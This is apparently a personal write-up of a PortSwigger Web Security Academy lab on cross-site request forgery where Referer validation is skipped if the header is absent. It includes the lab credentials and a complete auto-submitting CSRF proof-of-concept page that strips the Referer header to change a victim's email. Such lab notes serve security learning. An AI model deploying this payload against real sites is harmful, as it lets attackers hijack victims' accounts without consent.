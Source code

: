 # Practitioner Lab 86 : CSRF where Referer validation depends on header being present

---

This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0af7008303ec36eb8231844e007000bf.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test3&#64;newchangedemail&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
<meta name="referrer" content="never">
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Using this I tested it on myself and it worked. 

![Untitled](Practitioner%20Lab%2086%20CSRF%20where%20Referer%20validation%20%2018da48eedbaa4598a7d0fefd50330b7e/Untitled.png)

This solved the lab.